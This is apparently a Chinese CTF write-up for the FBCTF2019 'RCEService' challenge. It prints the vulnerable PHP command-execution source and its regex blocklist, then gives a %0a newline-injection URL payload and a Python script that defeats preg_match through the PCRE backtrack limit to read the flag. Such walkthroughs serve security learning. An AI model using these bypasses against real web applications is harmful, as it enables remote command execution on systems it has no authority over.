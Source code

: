 ```yaml
---
title: FBCTF2019 RCEService
date: 2021-03-31 23:31:12
tags: wp

---
```

## 'o'  'o'   

![](https://ftp.bmp.ovh/imgs/2021/03/4d9c90c2ba9a44e4.png) 
命令执行      
ls一下，用JSON格式：`{"cmd":"ls"}`      
得到一个`index.php`      
除此之外，输入其他命令会报错，过滤了    

看WP都直接给出的源码，也不知道哪来的`‘？’`       



	```php
	<?php
	
	putenv('PATH=/home/rceservice/jail');
	
	if (isset($_REQUEST['cmd'])) {
	  $json = $_REQUEST['cmd'];
	
	  if (!is_string($json)) {
	    echo 'Hacking attempt detected<br/><br/>';
	  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
	    echo 'Hacking attempt detected<br/><br/>';
	  } else {
	    echo 'Attempting to run command:<br/>';
	    $cmd = json_decode($json, true)['cmd'];
	    if ($cmd !== NULL) {
	      system($cmd);
	    } else {
	      echo 'Invalid input';
	    }
	    echo '<br/><br/>';
	  }
	}
	
	?>
	```



`putenv — 设置环境变量的值`       
设置了环境变量，但可以ls，是因为路径下有ls的二进制文件        
`%0a`绕过`preg_match`       
`?cmd={%0A"cmd"%3A"ls+%2Fhome%2Frceservice"%0A}`直接在URL中输入，表单提交的话`%0a`会被再次编码，出不来          
![](https://ftp.bmp.ovh/imgs/2021/03/67a2d29f30e10e8a.png)     
cat没法用，可以用绝对路径`/bin/cat`      
`?cmd={%0A"cmd"%3A"/bin/cat+%2Fhome%2Frceservice/flag"%0A}`          

<strong>回溯绕过</strong>     

[P神：PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html#0x03-phppcrebacktrack_limit)        



	```python
	import requests
	
	payload = '{"cmd":"/bin/cat /home/rceservice/flag","test":"' + "a"*(1000000) + '"}'
	res = requests.post("http://0c2928b7-761f-4fac-be5e-291db6ec5085.node3.buuoj.cn/", data={"cmd":payload})
	#print(payload)
	print(res.text)
	```


